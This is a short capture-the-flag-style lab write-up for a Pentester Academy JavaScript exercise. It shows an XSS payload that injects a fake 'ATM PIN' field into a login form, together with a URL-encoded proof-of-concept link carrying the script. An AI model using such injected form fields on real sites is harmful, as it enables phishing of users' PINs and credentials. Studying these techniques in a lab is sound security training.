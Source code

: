 ## Task 4 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/4)</small>

Objectives:

1. Add a new form field called "ATM PIN"

So this is pretty straight forward. We need to create an element and add it to the form.

Using [Document.createElement()](https://developer.mozilla.org/en-US/docs/Web/API/Document/createElement) you can create an element and then with [appendChild](https://developer.mozilla.org/en-US/docs/Web/API/Node/appendChild) function you can add it before the submit button.

So the payload goes like this

```js
let ip = document.createElement("input");
ip.name = "atm_pin";
ip.classList.add("input-block-level");
ip.placeholder = "ATM Pin";
ip.type = "text";
document.forms[0].appendChild(ip);
```

This will add the input tag underneath submit button. Since it was not mentioned in the challenge, so this was the beast payload I came up with.

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/4?url=%3Cscript%3Elet%20ip%3Ddocument.createElement%28%22input%22%29%3Bip.name%3D%22atm_pin%22%3Bip.classList.add%28%22input-block-level%22%29%3Bip.placeholder%3D%22ATM%20Pin%22%3Bip.type%3D%22text%22%3Bdocument.forms%5B0%5D.appendChild%28ip%29%3B%3C%2Fscript%3E)
